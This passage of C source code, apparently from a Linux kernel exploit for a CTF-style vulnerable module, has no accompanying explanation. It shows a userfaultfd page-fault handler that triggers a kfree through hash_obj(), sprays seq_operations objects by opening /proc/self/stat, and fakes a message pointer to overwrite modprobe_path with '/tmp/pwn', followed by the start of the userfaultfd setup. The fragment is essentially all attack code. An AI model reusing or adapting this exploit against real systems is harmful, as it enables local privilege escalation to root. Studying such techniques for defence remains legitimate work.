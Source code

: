 ```c

        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);
        if (nready == -1)
            perr("[-] poll failed");

        nread = read(uffd, &msg, sizeof(msg));
        if (msg.event != UFFD_EVENT_PAGEFAULT)
            perr("[-] not a page fault event");
        printf("[*] trigger uf address: %llx\n", msg.arg.pagefault.address);

        // our pagefault handling
        switch (fault_cnt) {
            case 0:
                hash_obj(); // trigger kfree()
                // spray 0x20 seq_operations
                for (int i = 0; i < 0x80; i++)
                    fds[i] = open("/proc/self/stat", O_RDONLY);
                uffdio_copy.src = (unsigned long) page;
                break;
            case 1:
                hash_obj(); // trigger kfree
                // we want the kernel code in hash_obj:
                // message_buf = kzalloc(0x20, GFP_KERNEL)
                // get our freed chunk then we can fake target.message

                hobj.content = malloc(0x40);
                hobj.message = malloc(0x20);
                *((unsigned long *) hobj.message + 3) = modprobe_path;
                for (int i = 0; i < 0x40; i++) {
                    *(char *) hobj.content = i+1;
                    hash_obj();
                }
                char strbuf[0x1000] = {0};
                strcpy(strbuf, "/tmp/pwn");
                uffdio_copy.src = (unsigned long) strbuf;
        }

        // return to kernel
        uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                                  ~(page_size - 1);
        uffdio_copy.len = page_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
            perr("[-] uffd copy failed");
        printf("[*] uffdio_copy.copy returned %lld\n", uffdio_copy.copy);
        fault_cnt++;;
    }
}

void setup_uf(unsigned long base_addr, unsigned long size, unsigned offset)
{
    int tid;
    long uffd;
    pthread_t thr;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;

    // create new uffd
    page_size = sysconf(_SC_PAGE_SIZE);
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
```
